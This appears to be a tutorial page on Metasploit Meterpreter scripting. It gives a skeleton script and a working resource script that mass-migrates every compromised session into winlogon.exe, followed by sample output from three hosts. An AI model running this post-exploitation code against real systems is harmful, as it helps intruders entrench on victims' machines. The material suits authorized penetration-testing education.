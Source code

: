 # Meterpreter Scripting

Since the Meterpreter scripting is planned to be removed and replaced with POST module, we'll put a skeleton Meterpreter script only.

You can locate you new Meterpreter script in

* The framework it-self `metasploit-framework/scripts/meterpreter` or,
* In your Metasploit user's path `~/.msf/scripts/meterpreter`

## Absolute Meterpreter Script

```ruby
# $Id$
# $Revision$
# Author: 
#-------------------------------------------------------------------------------
################## Variable Declarations ##################

@client = client
sample_option_var = nil
@exec_opts = Rex::Parser::Arguments.new(
    "-h" => [ false, "Help menu." ],
    "-o" => [ true , "Option that requires a value"]
    )
meter_type = client.platform

################## Function Declarations ##################

# Usage Message Function
#-------------------------------------------------------------------------------
def usage
    print_line "Meterpreter Script for INSERT PURPOSE."
    print_line(@exec_opts.usage)
    raise Rex::Script::Completed
end

# Wrong Meterpreter Version Message Function
#-------------------------------------------------------------------------------
def wrong_meter_version(meter = meter_type)
    print_error("#{meter} version of Meterpreter is not supported with this Script!")
    raise Rex::Script::Completed
end

################## Main ##################
@exec_opts.parse(args) { |opt, idx, val|
    case opt
    when "-h"
        usage
    when "-o"
        sample_option_var = val
    end
}

# Check for Version of Meterpreter
wrong_meter_version(meter_type) if meter_type !~ /win32|win64|java|php|linux/i # Remove none supported versions
```

The script is directly quoted from the Metasploit samples

## Run Process migration on multiple meterpreter sessions

From \`msfconsole\` and after getting all metherpreter sessions, go to `post/windows/manage/migrate`

```
use post/windows/manage/migrate
```

> **Note:** make sure you've the sufficient privileges to migrate to the designated processe

Then create a file with `rc` extension including the `<ruby> </ruby>` tages

**mass-mirgation.rc**

```ruby
<ruby>
# Find PID by name
def find_pid(session_num, session, process)
  print_status("Session #{session_num} | Finding PID of processe #{process}")
    session.sys.process.get_processes().each do |x|
    proc_name, proc_id = x['name'].downcase, x['pid']

    return proc_id if proc_name == process.downcase
  end
end

process = 'winlogon.exe'
framework.sessions.each do |num,session|
  run_single("set PID #{find_pid(num, session, process)}")
  run_single("set SESSION #{num}")
  print_status("Running #{active_module.fullname} against session #{num}")
  run_single("run -j")
  sleep 1
end
</ruby>
```

Now, from msfconsole,

```
resource /home/rubyfu/mass-migration.rc
```

Result will be similar to

```
[*] Running post/windows/manage/migrate against session 2
[*] Post module running as background job

[*] Running module against WIN-NG118S6TM0H
[*] Current server process: shell.exe (3968)
[*] Spawning notepad.exe process to migrate to
[*] Session 2 | Finding PID of processe winlogon.exe
[+] Migrating to 3628
SESSION => 3
[*] Running post/windows/manage/migrate against session 3
[*] Post module running as background job
[*] Running module against HOME
[*] Current server process: shell.exe (2684)
[*] Session 3 | Finding PID of processe winlogon.exe
[+] Migrating to 2444
SESSION => 4
[*] Running post/windows/manage/migrate against session 4
[*] Post module running as background job
[*] Running module against WIN-8H4IDI0SR5A
[*] Current server process: shell.exe (2996)
[*] Session 4 | Finding PID of processe winlogon.exe
[+] Migrating to 2240

[+] Successfully migrated to process 3628
[+] Successfully migrated to process 2444
[+] Successfully migrated to process 2240
```



